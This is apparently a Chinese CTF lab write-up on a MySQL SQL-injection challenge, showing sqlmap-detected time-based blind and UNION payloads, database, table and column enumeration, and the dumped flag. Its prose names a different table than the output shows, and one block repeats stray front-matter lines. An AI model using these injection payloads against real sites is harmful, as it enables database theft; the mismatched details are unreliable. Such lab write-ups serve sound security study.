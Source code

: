 ```yaml
---
cover: https://w.wallhaven.cc/full/g7/wallhaven-g7l9dl.png
created: 2024-11-27T22:18
date: 2024-11-23 18:44:33+00:00
lastmod: 2024-11-23 18:50:14+00:00
tag: web渗透
title: MySQL结构
updated: 2024-12-30T23:33
---
```



# MySQL结构

根据网页显示内容输入1进行测试，此题可能存在 SQL 注入。此题与前一题类似，这次使用手工注入。先判断是否存在注入，发现存在注入后检查注入点。判断字段数量，然后检查数据库位置，知道数据库位置后[查看数据库版本](https://so.csdn.net/so/search?q=%E6%9F%A5%E7%9C%8B%E6%95%B0%E6%8D%AE%E5%BA%93%E7%89%88%E6%9C%AC&spm=1001.2101.3001.7020)和数据库名。接着查看全部数据库名，并查看这些数据库的表名，最后在 lvlbiqemvj 表中的数据发现此题 flag 。

```shell
tags: [web渗透]
title: MySQL结构
title: MySQL结构
title: MySQL结构
tags: [web渗透]
title: MySQL结构
tags: [web渗透]
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 4673 FROM (SELECT(SLEEP(5)))Zdxl)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-3592 UNION ALL SELECT CONCAT(0x7171717871,0x47507355576e4e6b494d4c75586462704e727346624f6d564d6e6668534473684f79787847454a55,0x717a7a7671),NULL-- -

```

```shell
Database: sqli                                                                                                                            
[2 tables]
+------------+
| egymeqgjcz |
| news       |
+------------+
```

```shell
Database: sqli                                                                                                                            
Table: egymeqgjcz
[1 column]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| zfhrovplks | varchar(100) |
+------------+--------------+

Database: sqli
Table: news
[2 columns]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| data   | varchar(20) |
| id     | int(10)     |
+--------+-------------+
```

```shell
Database: sqli
Table: egymeqgjcz
[1 entry]
+----------------------------------+
| zfhrovplks                       |
+----------------------------------+
| ctfhub{4ab37bed5dffcdbe6b965b8a} |
+----------------------------------+

```

